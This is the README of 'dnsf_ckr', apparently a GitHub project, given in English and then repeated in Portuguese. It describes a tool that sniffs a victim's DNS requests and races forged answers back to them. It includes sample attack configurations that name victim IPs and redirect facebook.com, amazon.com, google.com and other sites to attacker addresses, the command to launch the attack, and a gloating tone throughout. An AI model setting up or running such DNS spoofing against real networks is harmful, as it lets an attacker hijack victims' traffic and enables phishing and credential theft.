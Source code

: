 Dnsf_ckr
--------

(sorry my bad english...)

dnsf_ckr is a application used for messing up with domain names.

The idea here is sniffing victim's dns requests and fake the response as soon as possible than real dns server.
In this way is possible redirect the target machine to anywhere we want.

MuHAuHaUHauHAuHAHuha! :)

## Using dnsf_ckr

At first you need to know about two things

    * The victim's ip address
    * Which domain names you wish to spoof

These informations must be supplied to dnsf_ckr through a configuration file.

Suposing that yours victim is called "sheep" and has the ip address "192.30.70.9" and accesses the "www.facebook.com",
we have the following attack configuration:

        # dnsf_ckr attack config sample

        # at first, you have to declare your victim alias

        victims =
            sheep: 192.30.70.9
        ;

        # and so, the domain that your victim access which you want to spoof, in form <domain>:<spoofed-ip>

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        # finally, you inform your intentions to dnsf_ckr

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people
        ;


Okay, now you want to add a new attack based on a new victim and directing the "sheep" for others wilder domains too:


        victims = 
            sheep: 192.30.70.9
            obama: 192.30.70.21
        ;

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        namelist webcommerce-sites =
            www.amazon.com: 192.30.70.101
            www.buy-buy-baby-buy-buy.com: 192.30.70.101
            www.good-buy.com: 192.30.70.101
        ;

        namelist search-engines =
            www.bing.com: 192.30.70.102
            www.google.com: 192.30.70.101
            www.goduck.com: 192.30.70.103
        ;

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people, webcommerce-sites
            with obama mess up search-engines
        ;

Now, if all this presented data has been into "my-dirty-little-hacking.conf" file all we need to do is:

        ./dnsf_ckr my-dirty-little-hacking.conf


Have fun!
Rafael :)


Dnsf_ckr
--------

dnsf_ckr e uma aplicacao usada para baguncar com os dominios.

A ideia aqui e sniffar as requisicoes dns da vitima e forjar a resposta o quanto antes em relacao ao servidor dns real.
Dessa forma e possivel redirecionar a maquina alvo para onde nos quisermos.

MuHAuHaUHauHAuHAHuha! :)

## Usando o dnsf_ckr

Para comecar voce precisa saber de duas coisas

    * O endereco ip da vitima
    * Quais nomes de dominio voce deseja spoofar

Essas informacoes devem ser informadas para o dnsf_ckr por meio de um arquivo de configuracao.

Supondo que sua vitima se chama "ovelha" e possui o ip "192.30.70.9" e acessa "www.facebook.com",
teriamos a seguinte configuracao de ataque:

        # dnsf_ckr attack config sample

        # at first, you have to declare your victim alias

        victims =
            sheep: 192.30.70.9
        ;

        # and so, the domain that your victim access which you want to spoof, in form <domain>:<spoofed-ip>

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        # finally, you inform your intentions to dnsf_ckr

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people
        ;


Ok, agora voce quer adicionar um novo ataque para uma nova vitima, alem de direcionar a "ovelha" para outros dominios
mais selvagens:

        victims = 
            sheep: 192.30.70.9
            obama: 192.30.70.21
        ;

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        namelist webcommerce-sites =
            www.amazon.com: 192.30.70.101
            www.buy-buy-baby-buy-buy.com: 192.30.70.101
            www.good-buy.com: 192.30.70.101
        ;

        namelist search-engines =
            www.bing.com: 192.30.70.102
            www.google.com: 192.30.70.101
            www.goduck.com: 192.30.70.103
        ;

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people, webcommerce-sites
            with obama mess up search-engines
        ;

Agora, se todos esses dados apresentandos estiverem dentro do arquivo "my-dirty-little-hacking.conf" tudo o que precisamos fazer:

        ./dnsf_ckr my-dirty-little-hacking.conf


Boa diversao!
Rafael :)
